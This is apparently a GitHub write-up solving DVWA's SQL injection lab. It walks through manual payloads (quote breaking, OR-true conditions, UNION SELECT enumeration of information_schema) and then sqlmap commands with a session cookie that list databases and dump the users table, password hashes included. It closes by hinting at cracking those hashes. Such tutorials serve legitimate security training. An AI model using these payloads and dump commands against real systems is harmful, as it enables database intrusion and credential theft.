 Hello everyone, in this project I will make a detailed solution of the Sql injection part of Damn Vulnerable Web Application, a vulnerable web application.

<img width="510" alt="1" src="https://github.com/bdaggg/HACKING/assets/110742864/6d629f35-27b0-43fe-b1f0-cab14d01a272">

First I will exploit the vulnerability in a manual way and then I will do the exploitation process using the sqlmap tool. let's start if you are ready.

![2](https://github.com/bdaggg/HACKING/assets/110742864/c589bd87-adc4-4726-b78a-b7d4e5014af1)

step 1: when we write user id = 1, it brings us the information of the user with id number 1. from here we understand that a query is running in the background that brings information from the database. so can we exploit the database with the help of this query. we won't know without trying.

![3](https://github.com/bdaggg/HACKING/assets/110742864/1e9bb27d-d26c-4e15-a696-e5ed8db8a0be)


step 2: when we write user id = 1' we see a sql syntax error. so we have broken the query running in the background. so what did we actually do. let me explain this on an example. In fact, the system assigns the value it receives from us to a variable called id and runs a query like this in the background: SELECT first_name, last_name FROM users WHERE user_id = '$id' actually the 1' expression we wrote is put where the $id expression is. because we put an extra quotation mark ('), the syntax of the query is broken and an error is thrown. it seems that the expressions we write are placed into the background query without any control. now let's make preparations to ask our own query in the next step.

![4](https://github.com/bdaggg/HACKING/assets/110742864/f806569a-7d12-41da-bede-5c9b95543465)

step 3: in this step, when we type user id = 1' or '2'='2'# or user id = 1' or '2'='2, we manage to get the information of all users in the system. after this step, we are now sure that there is an sql injection vulnerability in the system. in the next steps, we will try to access more than the information we see on the screen.

![5](https://github.com/bdaggg/HACKING/assets/110742864/989ce846-a143-4f22-a745-2f7f16b24bda)

step 4: in this step we enter the statement user id = 1' union select 1# with this statement we are trying to find out how many tables are used in the background. but we get the error 'The used SELECT statements have a different number of columns' and we understand that more than 1 table is actually used. let's increase the number of tables.

![Ekran Görüntüsü (348)](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/2e665aeb-a8d0-42c0-8cc7-463eff08b2dc)

step 5: in this step we enter the expression user id = 1' union select 1,2# and when we enter this expression, our query works. so what did we do, let's talk about this.

First, let's remember our estimated query again: SELECT first_name, last_name FROM users WHERE user_id = '$id' user id = 1' union selecet 1# when we type our new query: SELECT first_name, last_name FROM users WHERE user_id = '1' union selecet 1#' Before explaining this expression, let me explain what the union expression does. union is an operator that joins queries. But for it to work, the column numbers in both queries must be the same, otherwise it will not work. now let's go back to our query. SELECT first_name, last_name FROM users WHERE user_id = '1' union selecet 1#' The first part of this combined query brings user information with user_id value 1, the second part does not do any function, but we said that the number of tables in both queries must be equal for the first query to work. the selecet 1 part in our second query was written only to find out if 1 table was used or not (1 is symbolic and does not represent the number of tables as a value). because if 1 table was used then no error is received and the first query works. but if we remember we got the error 'The used SELECT statements have a different number of columns'. so we wrote the statement 'user id = 1' union select 1,2#. now let's examine our new query in detail; SELECT first_name, last_name FROM users WHERE user_id = '1' union select 1,2#' In the first part of this query, we wanted it to return the user with id value 1, and in the second part, we tried to find out if two tables were used. With the # statement, we prevented us from getting a syntax error by taking the extra quote ('') from the background query into the comment line. When I ran this query, we did not get any error and we got the information of the user whose id value was 1. In this way, we understood that two tables were used in our query. so what will this do? let's look at the answer to this question in the next step.

![6](https://github.com/bdaggg/HACKING/assets/110742864/4ac2fac0-57ef-4c25-9c86-38cdcc50e62c)

step 6: user id = 1 ' union select table_name,2 from information_schema.tables# with this statement we get the names of the tables used in the database. information_schema is a topic worth researching and it is too deep for me to explain here. My advice is to spend time on information_schema and learn about this topic by doing a detailed research. With information_schema, we want it to give us all the table names instead of table number 1 and this is how we get the table names.

![adım7](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/65168b34-9374-4339-b640-dbb7766696e7)

step 7: user id = 1' union select column_name,2 from information_schema.columns where table_name='users'# in this step, we randomly select a table from the tables we just found and try to find its columns. we managed to print the columns of the users table on the screen thanks to the query we wrote. let's take a look at the query we wrote this time; in our query, this time we told the system we are targeting columns from information_schema. columns, we told the system that we are targeting the columns. with the expression where table_name='users'# we told which table's column we are targeting. with the expression select column_name, 2 we told it to print us the column names instead of table 1 and we completed our query and in this way we managed to get all the columns in the users table.

![adım8](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/a1399614-b586-4d33-bd40-33cf9163e719)

step 8: user id = 1' union select first_name,last_name from users# with this query we are actually at the end of the manual experiment because we will be able to pull the data in the columns we want in the users table. i pulled the data in the first_name and last_name columns, but you can use the same logic to get the data in all columns of all tables. next we will use SQLMAP, one of the tools in kali linux, to automatically pull data faster. but understanding the manual part very well will actually help you understand how SQLMAP works. let's try to do the same with SQLMAP.

![sqlmap](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/da70e2f8-b1e3-438f-a77b-41a6492a901e)

The sqlmap tool is, in my opinion, the most powerful tool ever developed in sql injection attacks. you will understand better why I think so when we move on to its use in a moment. But I need to make an important point before using the sqlmap tool. if you have noticed in the web applications that you open an account and enter, when you switch between pages, the application does not ask you for your account information again every time because a special cookie is provided to you in the background. if this cookie information is stolen, someone can log in to your account using only your cookie information even without knowing your username and password. So why did I explain this? When logging in to the DVWA application, which is the vulnerable web application we use, it asks username and password from us, which means that a special cookie is defined for us. we need to give the cookie information when attacking with the sqlmap tool. if we do not give it, we will not be able to log in to the system and we will be stuck on the login page. if this is understood, let's start using the sqlmap tool.

![sqlmap](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/01b7a28d-9569-475d-ad60-15f75301ed8c)

step 1: in the terminal; sqlmap -u 'http://192.168.65.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' -p id --cookie 'security=low; security_level=0; PHPSESSID=9cnfgb79prf6hcgkssn750i300; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada' -dbs. let's examine this expression in detail. First, by typing sqlmap, we told the terminal that the tool we will use is sqlmap. then we gave the address we will attack with the expression -u 'http://192.168.65.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#'. With the expression -p id, we specified the variable we will attack in the url. With --cookie 'security=low; security_level=0; PHPSESSID=9cnfgb79prf6hcgkssn750i300; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada' we wrote our cookie information, you can see how we get this cookie information from the picture be

![sqlmap2](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/cda3f975-8fec-4523-a7ae-ba9af06b8ee6)

Finally, we asked -dbs to find the databases used in the system for us.

![sqlmap3](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/410dd263-814c-4369-9310-b9fb670561f1)

When we ran our command, it showed us that there are two databases used in the system as shown in the picture above. these are: dvwa and information_schema databases. I have already recommended you to search for information_schema databases. now let's try to find the tables used in the dvwa database.

![sqlmap4](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/59a088fd-4675-447f-899c-2ac0d4574c45)

step 2: in terminal; sqlmap -u 'http://192.168.65.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' -p id --cookie 'security=low; security_level=0; PHPSESSID=9cnfgb79prf6hcgkssn750i300; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada' -D dvwa --tables and run it.

![sqlmap5](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/aecab604-d9bf-44c4-8ff3-dcc0581c4e6c)

When we run our command, we see that there are two tables in the dvwa database as seen above. these are guestbook and users tables. now let's find the data in these tables.

![sqlmap6](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/45cb7a04-2fdf-4a88-89e6-712993c461f7)

step 3: this time in the terminal: sqlmap -u 'http://192.168.65.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' -p id --cookie 'security=low; security_level=0; PHPSESSID=9cnfgb79prf6hcgkssn750i300; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada' -D dvwa -T users --dump In this way, we bring all columns in the user table together with the data in them

![sqlmap7](https://github.com/bdaggg/DVWA-Vulnerability-SQL-Injection/assets/110742864/8706d7ca-9d66-4204-84dc-30d0649b51a3)

As seen in the picture above, we managed to get all the columns in the users table and the data in the columns. using the same logic, it is possible to pull the data of all tables in all databases. we received the passwords in hashed form. there are many ways to decrypt hashed passwords. it can be found with a little research.
